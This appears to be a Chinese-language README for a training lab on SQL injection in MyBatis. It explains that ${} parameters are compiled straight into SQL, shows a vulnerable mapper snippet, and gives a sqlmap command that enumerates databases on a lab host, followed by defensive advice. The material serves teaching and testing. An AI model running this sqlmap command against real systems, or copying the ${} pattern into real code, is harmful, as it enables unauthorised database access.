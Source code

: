 # Mybatis sql注入漏洞环境
### 测试环境
本环境用mybatis演示了使用$符号,而不是#符号时,引起的sql注入漏洞.

### 漏洞原理
```
<select id="findLogByUserId" parameterType="long" resultMap="logResultMap">
    select * from t_user_log where user_id=#{userId} and action=#{action} order by id desc limit ${1}
</select>
```
如果${1}可控，就存在安全问题

在mybatis中，”${xxx}”这样格式的参数会直接参与sql编译，从而不能避免注入攻击。但涉及到动态表名和列名时，只能使用“${xxx}”这样的参数格式，所以，这样的参数需要我们在代码中手工进行处理来防止注入。

ps:更多细节查阅参考资料

环境源码下载:[vuln_mybatis.tar.gz](!http://{{ip}}:{{webport}}/vuln/mybatis_sqli/vuln_mybatis.tar.gz)

### 漏洞利用
下载sqlmap利用工具,利用sqlmap获得mysql所有的数据库名
```
git clone https://github.com/sqlmapproject/sqlmap
cd sqlmap
python sqlmap.py --batch -u "http://10.0.1.28:32806/getUserInfoOrder/name*" --dbs
```

### 漏洞防御
    在编写mybatis的映射语句时，尽量采用“#{xxx}”这样的格式。若不得不使用“${xxx}”这样的参数，要手工地做好过滤工作，来防止sql注入攻击。
### 参考资料
[审计mybatis的sql注入](!http://xdxd.love/2017/05/24/审计mybatis的sql注入new/)